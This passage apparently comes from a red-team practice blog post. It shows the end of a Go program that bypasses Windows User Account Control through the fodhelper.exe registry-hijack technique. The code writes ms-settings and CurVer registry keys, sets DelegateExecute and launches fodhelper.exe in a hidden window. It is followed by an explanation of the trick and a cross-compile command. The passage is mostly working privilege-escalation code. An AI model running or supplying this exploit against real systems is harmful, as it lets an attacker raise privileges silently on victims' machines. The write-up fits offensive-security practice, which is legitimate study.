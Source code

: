```go
  }

  // Create second key which redirects to the first one
  k2, _, err := registry.CreateKey(registry.CURRENT_USER,
    "Software\\Classes\\ms-settings\\CurVer", registry.ALL_ACCESS,
  )
  if err != nil {
    log.Fatal(err)
  }
  defer k2.Close() // Close key
  defer registry.DeleteKey(registry.CURRENT_USER, "Software\\Classes\\ms-settings\\CurVer")

  err = k2.SetStringValue("", rand_key_name)
  if err != nil {
    log.Fatal(err)
  }

  fmt.Println("[*] Executing fodhelper.exe")
  //time.Sleep(1000 * time.Millisecond)
  cmd := exec.Command("cmd.exe", "/C", "fodhelper.exe") // Run fodhelper
  cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
  err = cmd.Run()
  time.Sleep(500 * time.Millisecond)

  fmt.Println("[+] UAC bypass successed!")
}
```

As you can see we create two registry keys, the first one with a random value on it, then we set "***DelegateExecute***" to "" and "(default)" value to command we want to execute. And on the second registry key, we set the "(default)" value to the random value of the other key (i.e. dJsUy)

# Demo

Let's compile our code

```sh
GOARCH=amd64 GOOS=windows go build main.go
```

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice14/compile.png" alt="pic">

Then we transfer the .EXE to our testing machine and execute it
